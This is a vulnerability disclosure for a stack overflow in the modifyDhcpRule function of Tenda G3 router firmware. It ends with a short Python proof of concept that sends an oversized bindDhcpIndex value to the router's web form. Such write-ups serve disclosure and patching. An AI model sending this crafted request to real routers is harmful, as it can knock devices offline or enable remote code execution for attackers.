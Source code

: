 # Tenda G3 modifyDhcpRule
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the modifyDhcpRule function.
### Vulnerability details
Stack-based buffer overflow in function modifyDhcpRule on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function modifyDhcpRule line 35, it reads in a user-provided parameter, and the variable bindDhcpIndex is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/modifyDhcpRule-1.png)
![](images/modifyDhcpRule-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/modifyDhcpRule'
payload = {
    "bindDhcpIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
